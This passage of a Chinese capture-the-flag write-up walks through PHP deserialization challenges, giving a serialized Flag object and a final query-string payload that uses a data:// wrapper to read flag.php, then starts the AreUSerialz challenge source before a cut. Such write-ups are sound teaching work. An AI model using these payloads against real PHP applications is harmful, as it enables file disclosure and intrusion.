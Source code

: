 ```
```

提示flag.php，这里我们可以控制file的值，在本地执行代码，得出密码payload。

```
?php  

class Flag{  //flag.php  
    public $file = 'flag.php';  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  

$a = new Flag();
echo serialize($a);
//O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
?>  
```

最终payload：

```
?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

### [网鼎杯 2020 青龙组]AreUSerialz

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
```